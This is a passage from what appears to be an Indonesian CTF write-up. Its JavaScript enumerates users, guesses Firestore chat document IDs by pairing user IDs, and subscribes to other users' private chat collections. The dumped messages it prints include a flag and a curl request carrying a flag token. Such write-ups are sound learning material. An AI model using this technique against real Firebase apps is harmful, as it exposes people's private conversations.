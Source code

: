 ```javascript
    // Read the response as json.
    return response.json();
})
.then(function(users) {

    let validUsers = users.filter(function(user) {
        let createdAt = new Date(user.createdAt);
        let tiga_satu_september = new Date(2019, 8, 31);
        if (createdAt.getTime() < tiga_satu_september.getTime()) {
            return true;
        } 
        return false;
    });

    let db = firebase.firestore();
    validUsers.forEach(function(user) {
        var tikus = 'AklnM0ECqthXXM5EH7SthK1mR4E2';
        var docId = (user.id > tikus) ? tikus + user.id : user.id + tikus;

        db.collection("chats").doc(docId).collection("items")
        .onSnapshot(function(querySnapshot) {
            querySnapshot.forEach(function(doc) {
                console.log(doc.data());
            });
        });
    });
})
.catch(function(error) {
    console.log('Looks like there was a problem: \n', error);
});
```

Dan Alhamdulillah, kita sepertinya mendapatkannya.
```
Object { createdAt: {…}, from: "6TnSsggCYfV5oUSWgmscDPtLMcZ2", text: "nice, hai kawan" }
Object { createdAt: {…}, from: "AklnM0ECqthXXM5EH7SthK1mR4E2", text: "curl -H \"Content-Type: application/json\" -H \"X-Flag-Token: flag\" -X POST -d '{\"name\":\"your name\"}'" }
Object { createdAt: {…}, from: "AklnM0ECqthXXM5EH7SthK1mR4E2", text: "simpan itu" }
Object { createdAt: {…}, from: "6TnSsggCYfV5oUSWgmscDPtLMcZ2", text: "sepoi angin malam menyapa" }
Object { createdAt: {…}, from: "AklnM0ECqthXXM5EH7SthK1mR4E2", text: "tikus tikus liar mulai bekerja" }
Object { createdAt: {…}, from: "AklnM0ECqthXXM5EH7SthK1mR4E2", text: "Fl49{FrBs_Th4nk5_943ss5}" }
Object { createdAt: {…}, from: "qS0wR16CE8gMVQewTegF4TUQWbs2", text: "A" }
```
<a href="/assets/images/2019-10-03-232154_1364x363_scrot.png" target="_blank">
    <img src="/assets/images/2019-10-03-232154_1364x363_scrot.png" style='width:100%;' border="0" alt="percobaan kedua">
</a>
